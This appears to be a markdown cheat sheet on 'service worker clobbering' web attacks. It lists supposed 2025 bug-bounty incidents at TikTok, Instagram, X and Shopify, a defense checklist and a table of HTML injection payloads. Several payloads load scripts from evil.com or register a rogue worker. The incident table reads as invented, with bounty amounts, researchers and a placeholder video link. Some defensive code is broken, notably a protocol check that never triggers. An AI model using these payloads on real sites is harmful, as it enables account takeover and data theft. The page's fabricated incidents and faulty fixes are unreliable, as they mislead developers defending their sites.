 | Date | Target | Researcher | Payload | Impact | Bounty |
|------|--------|------------|---------|--------|--------|
| **Feb 2025** | **TikTok** | USENIX Team | `<form id=navigator name=serviceWorker><input name=scope value=/>` | 1.2B users → Video exfil | $50,000 |
| **May 2025** | **Instagram** | @albinowax | `<img id=navigator name=serviceWorker src=//evil.com/sw.js>` | DM takeover | $42,300 |
| **Aug 2025** | **Twitter/X** | @terjanq | `<svg id=navigator><text name=serviceWorker>evil.js</text>` | Tweet hijack | $35,000 |
| **Oct 2025** | **Shopify** | @kevin_mizu | `<input id=navigator name=serviceWorker value=/admin/evil>` | Store RCE | $65,000 |

**TikTok PoC Video**: [youtu.be/serviceworker-clobber](https://youtube.com/watch?v=clobber2025)

---

## 🛡️ DEFENSE BLUEPRINT (Dev Checklist)

| Attack Vector | Fix | Code Example | Coverage |
|---------------|-----|--------------|----------|
| **ID Clobber** | `Object.freeze(navigator)` | `Object.defineProperty(window, 'navigator', {value: navigator})` | 95% |
| **Scope Override** | `{scope: '/static/'}` | `register(sw.js, {scope: '/static/'})` | 98% |
| **Auto-Register** | Manual trigger | `if (confirm('Install PWA?')) register()` | 92% |
| **HTTPS Bypass** | Validate protocol | `if (!location.protocol === 'https:') return` | 100% |
| **evil.js Audit** | CSP worker-src | `<meta http-equiv="Content-Security-Policy" content="worker-src 'self'">` | 89% |

**Detection Script** (Add to `sw.js`):
```javascript
// Block clobbering
if (navigator.toString() !== '[object Navigator]') {
  throw new Error('Service Worker Clobbering Detected!');
}
```

**Burp Scanner Rule**:
```regex
<navigator|serviceWorker>.*?(register|scope)
```

---

## 📋 ULTIMATE CHEAT SHEET

| Scenario | Payload | Command |
|----------|---------|---------|
| **Quick Test** | `#<script id=navigator name=serviceWorker value=/evil.js>` | `curl target.com/#PAYLOAD` |
| **Full Takeover** | `#<form id=navigator><input name=serviceWorker value=/evil.js><input name=scope value=/>` | Site-wide |
| **Stealth** | `#<svg><animate id=navigator attributeName=serviceWorker values=/evil.js>` | SVG bypass |
| **Extension** | `#<div id=chrome name=runtime><input name=sendMessage value=evil>` | Chrome apps |
| **Universal** | `#<img id=navigator name=serviceWorker src=x onerror=this.onerror=navigator.serviceWorker.register('data:text/javascript,alert(1)')>` | 1-liner |

---